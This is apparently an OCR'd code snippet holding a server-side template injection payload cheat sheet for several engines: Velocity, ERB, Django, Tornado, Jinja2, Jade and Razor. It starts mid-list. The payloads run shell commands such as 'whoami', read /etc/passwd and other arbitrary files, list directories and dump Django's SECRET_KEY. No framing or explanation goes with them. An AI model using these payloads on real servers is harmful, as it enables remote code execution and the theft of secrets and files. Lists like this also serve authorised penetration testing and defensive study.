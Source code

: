 ```
{{/with}}  
{{/with}}  
{{/with}}  
--------------------------------------------------------------------
Velocity: 
#set($str=$class.inspect("java.lang.String").type)  
#set($chr=$class.inspect("java.lang.Character").type)  
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))  
$ex.waitFor()  
#set($out=$ex.getInputStream())  
#foreach($i in [1..$out.available()])  
$str.valueOf($chr.toChars($out.read()))  
#end  
-------------------------------------------------------------------  
ERB (Ruby):  
<%= system("whoami") %>  
<%= Dir.entries('/') %>  
<%= File.open('/example/arbitrary-file').read %>  
--------------------------------------------------------------------  
Django Tricks (Python):
{% debug %}  
{{settings.SECRET_KEY}}  
--------------------------------------------------------------------  
Tornado (Python):  
{% import foobar %} = Error  
{% import os %}{{os.system('whoami')}}  
--------------------------------------------------------------------  
Mojolicious (Perl):
<%= perl code %>  
<% perl code %>  
--------------------------------------------------------------------
Flask/Jinja2: Identify:  
{{ '7'*7 }}  
{{ [].class.base.subclasses() }} # get all classes  
{{''.class.mro()[1].subclasses()}}  
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}  
--------------------------------------------------------------------
Flask/Jinja2:  
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}  
--------------------------------------------------------------------  
Jade:  
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}  
--------------------------------------------------------------------  
Razor (.Net):
@(1+2)  
@{// C# code}  
--------------------------------------------------------------------
```


---
